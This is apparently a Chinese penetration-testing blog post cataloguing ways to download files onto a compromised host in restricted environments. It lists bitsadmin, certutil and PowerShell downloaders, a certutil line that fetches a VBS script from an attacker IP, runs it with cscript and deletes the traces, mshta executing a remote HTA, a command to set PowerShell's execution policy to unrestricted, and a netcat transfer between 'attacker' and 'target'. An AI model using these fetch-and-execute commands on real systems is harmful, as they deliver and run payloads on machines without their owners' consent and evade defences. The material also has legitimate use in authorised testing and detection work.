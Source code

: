 ```yaml
---
layout: post
title: "多种下载文件姿势（长期更新）"
subtitle: "高强度渗透环境下的文件下载姿势"
date: 2019-08-03
author: otto.known
category: security
finished: true
---
```


[TOC]

#### 高强度渗透环境下的文件下载姿势，很鸡肋的就没贴上来


>Bitsadmin

```php
* bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip c:\p.zip

* bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip c:\p.zip

* bitsadmin /transfer myDownLoadJob /download /priority normal "http://download.sysinternals.com/files/PSTools.zip" "c:\p.zip"
```
>certutil

```php
certutil -urlcache -split -f http://192.168.254.102:80/a.txt b.txt
```

>命令行远程执行VBS

```python
certutil -urlcache -split -f http://192.168.254.102:80/abc a.vbs && cscript a.vbs &&  del a.vbs && certutil -urlcache -split -f http://192.168.254.102:80/abc delete
```

>命令行远程执行HTA

```
mshta http://192.168.254.102/1.hta
```

>Powershell（win2003、winXP不支持）

```powershell
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file")
```

执行
```powershell
PS C:> .test.ps1
```

如果Powershell禁止执行了，使用如下命令：

```powershell
C:>powershell set-executionpolicy unrestricted
```

>Visual Basic

创建如下脚本
```vb
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with
```

执行
```powershell
C:>cscript test.vbs
```

>Python

```python
#!/usr/bin/python 
import urllib2 
u = urllib2.urlopen('http://domain/file') 
localFile = open('local_file', 'w') 
localFile.write(u.read()) 
localFile.close()
```

执行
```shell
root@kali:~# python test.py
```

>Ruby

```ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

执行
```shell
root@kali:~# ruby test.rb
```

>PHP

```php
#!/usr/bin/php 
<?php $data = @file("http://example.com/file");
$lf = "local_file";         
$fh = fopen($lf, 'w');         
fwrite($fh, $data[0]);         
fclose($fh); 
?>
```

执行
```shell
root@kali:~# php test.php
```

>FTP

````shell
ftp 127.0.0.1 username password get filename exit
```

>TFTP

```shell
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```

>Wget

```shell
wget http://example.com/file
```

>Netcat

attacker执行

```shell
cat file | nc -l 1234
```
target执行

```shell
nc host_ip 1234 > file
```



